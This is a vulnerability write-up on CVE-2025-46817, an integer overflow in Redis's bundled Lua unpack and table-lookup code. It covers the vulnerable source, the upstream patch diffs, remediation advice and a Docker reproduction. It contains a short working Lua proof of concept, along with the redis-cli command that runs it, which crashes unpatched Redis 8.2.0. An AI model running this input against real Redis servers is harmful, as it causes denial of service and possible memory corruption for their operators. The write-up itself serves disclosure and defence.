



# CVE-2025-46817 CWE-190 Redis integer overflow

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.

```txt
CWE-190: Integer Overflow or Wraparound

The product performs a calculation that can produce an integer overflow or wraparound when the logic assumes that the resulting value will always be larger than the original value. This occurs when an integer value is incremented to a value that is too large to store in the associated representation. When this occurs, the value may become a very small or negative number.
```

## Vulnerability Mechanism
 Redis's Lua library does not properly handle integer overflow and boundary checks when handling extreme indexes: passing extreme i/j to `unpack` (such as `-2^31` to `2^31-1`) causes count overflow or abnormal size, triggering huge/erroneous memory operations; At the same time, `luaH_getnum`'s unsigned `key-1` can overflow under extreme indexes and misjudge legitimacy; merging the two can lead to out-of-bounds read/write, crashes, or even potentially remote code execution.

## Vulnerability Location
Analysis of the Redis-8.2.0 source code:

In the deps/lua/src/lbaselib.c file, line 342 of the luaB_unpack function, when `e - i + 1` overflows (for example, i = -2^31, e = 2^31-1), arithmetic may loop negatively or zero in a 32-bit `int` environment, relying on `n <= 0`  Determining that overflow is limited (depending on specific integer width and symbolic behavior) and then using `n` as a parameter of `lua_checkstack` may lead to incorrect behavior or large/uncontrolled memory allocation/stack operations.

```c
// lbaselib.c file, line 342
static int luaB_unpack (lua_State *L) {
  int i, e, n;
  luaL_checktype(L, 1, LUA_TTABLE);
  i = luaL_optint(L, 2, 1);
  e = luaL_opt(L, luaL_checkint, 3, luaL_getn(L, 1));
  if (i > e) return 0;  /* empty range */
  n = e - i + 1;  /* number of elements */
  if (n <= 0 || !lua_checkstack(L, n))  /* n <= 0 means arith. overflow */
    return luaL_error(L, "too many results to unpack");
  lua_rawgeti(L, 1, i);  /* push arg[i] (avoiding overflow problems) */
  while (i++ < e)  /* push arg[i + 1...e] */
    lua_rawgeti(L, 1, i);
  return n;
}
```

`unpack` When pushing elements to the stack, line 567 `lua_rawgeti(L, 1, i)` of the redis/deps/lua/src/lapi.c file is used (indexed by value for tables). A low-level implementation of `lua_rawgeti` calls `luaH_getnum(Table *t, int key)` to handle integer indexes (optimizing paths).

```c
// lapi.c file, line 567
LUA_API void lua_rawgeti (lua_State *L, int idx, int n) {
  StkId o;
  lua_lock(L);
  o = index2adr(L, idx);
  api_check(L, ttistable(o));
  setobj2s(L, L->top, luaH_getnum(hvalue(o), n));
  api_incr_top(L);
  lua_unlock(L);
}
```

In the deps/lua/src/ltable.c file, line 436 of the luaH_getnum function converts `key-1` to unsigned comparison `key-1 < t->sizearray` via `cast(unsigned int, key-1)`. However, when `key` is very small or negative (`key-1` is negative), unsigned conversion causes overflow, resulting in large unsigned values that incorrectly make the comparison valid or invalid, resulting in potential out-of-bounds access (especially when `key` is an extreme value of INT_MIN or near a boundary).

```c
// ltable.c file, line 436
const TValue *luaH_getnum (Table *t, int key) {
  /* (1 <= key && key <= t->sizearray) */
  if (cast(unsigned int, key-1) < cast(unsigned int, t->sizearray))
    return &t->array[key-1];
  else {
    lua_Number nk = cast_num(key);
    Node *n = hashnum(t, nk);
    do {  /* check whether `key' is somewhere in the chain */
      if (ttisnumber(gkey(n)) && luai_numeq(nvalue(gkey(n)), nk))
        return gval(n);  /* that's it */
      else n = gnext(n);
    } while (n);
    return luaO_nilobject;
  }
}
```

## Remediation

Upgrade to Redis 8.2.2 or later. The issue exists in earlier Redis releases that include Lua scripting, even though the CVE record summarizes the affected range as versions through 8.2.1. If upgrading is delayed, deny untrusted users access to Lua scripting and functions with ACL rules covering `EVAL`, `EVALSHA`, `FCALL`, and function-management commands.

In `unpack`, the patch uses unsigned subtraction and an upper-bound check (`n >= INT_MAX`) so that `j - i + 1` cannot wrap into a small or negative result. It also restores explicit bounds checking in `luaH_getnum`.

```cpp
diff --git a/deps/lua/src/lbaselib.c b/deps/lua/src/lbaselib.c
index 2ab550bd48d..26172d15b40 100644
--- a/deps/lua/src/lbaselib.c
+++ b/deps/lua/src/lbaselib.c
@@ -340,13 +340,14 @@ static int luaB_assert (lua_State *L) {
 
 
 static int luaB_unpack (lua_State *L) {
-  int i, e, n;
+  int i, e;
+  unsigned int n;
   luaL_checktype(L, 1, LUA_TTABLE);
   i = luaL_optint(L, 2, 1);
   e = luaL_opt(L, luaL_checkint, 3, luaL_getn(L, 1));
   if (i > e) return 0;  /* empty range */
-  n = e - i + 1;  /* number of elements */
-  if (n <= 0 || !lua_checkstack(L, n))  /* n <= 0 means arith. overflow */
+  n = (unsigned int)e - (unsigned int)i;  /* number of elements minus 1 */
+  if (n >= INT_MAX || !lua_checkstack(L, ++n))
     return luaL_error(L, "too many results to unpack");
   lua_rawgeti(L, 1, i);  /* push arg[i] (avoiding overflow problems) */
   while (i++ < e)  /* push arg[i + 1...e] */
```

In `luaH_getnum`, the use of explicit bounded comparison `1 <= key && key <= t->sizearray` is reverted, avoiding the risks of overflow and incorrect array index hits caused by unsigned forced conversion to `key-1`.

```diff
diff --git a/deps/lua/src/ltable.c b/deps/lua/src/ltable.c
index f75fe19fe39..55575a8ace9 100644
--- a/deps/lua/src/ltable.c
+++ b/deps/lua/src/ltable.c
@@ -434,8 +434,7 @@ static TValue *newkey (lua_State *L, Table *t, const TValue *key) {
 ** search function for integers
 */
 const TValue *luaH_getnum (Table *t, int key) {
-  /* (1 <= key && key <= t->sizearray) */
-  if (cast(unsigned int, key-1) < cast(unsigned int, t->sizearray))
+  if (1 <= key && key <= t->sizearray)
     return &t->array[key-1];
   else {
     lua_Number nk = cast_num(key);
```

## Affected Versions

- Redis releases with Lua scripting before 8.2.2

## Environment Setup
Starting the Docker environment, Redis version 8.2.0, contains the PoC file `CVE-2025-46817-PoC.lua`.

```txt
NIST:NVD   Base Score: 9.8 CRITICAL   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

CNA:GitHub,Inc.   Base Score:7.0 HIGH   Vector:  CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:redis:redis:8.2.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Go to the container command line and run the PoC file. You will see Redis disconnect

   ```bash
   docker exec redis-8.2.0 redis-cli --eval CVE-2025-46817-PoC.lua
   ```

   

2. Checking the container logs, you can see that Asan reported unauthorized access, causing the crash

   ```bash
   docker logs redis-8.2.0
   ```

   

## PoC Analysis

```lua
-- Define a table of length 3 (index 1:3), a Lua-style array table
local data = {1, 2, 3}

return {unpack(data, -2147483648, 2147483647)}
```

Semantics of `unpack(t, i, j)`: Returns elements in Table `t` from index `i` to `j` (including both ends) as multiple return values. The `i` and `j` passed in here are both extreme values, causing the `unpack` to calculate "how many elements to return" when calculating the "number of elements" with extreme or integer boundaries, which can trigger internal overflow/looping or result in large loops/distributions.

## References
[NVD - CVE-2025-46817](https://nvd.nist.gov/vuln/detail/CVE-2025-46817)

[Redis security advisory GHSA-m8fj-85cg-7vhp](https://github.com/redis/redis/security/advisories/GHSA-m8fj-85cg-7vhp)

[Upstream fix](https://github.com/redis/redis/commit/fc9abc775e308374f667fdf3e723ef4b7eb0e3ca)

[Redis 8.2.2 release](https://github.com/redis/redis/releases/tag/8.2.2)
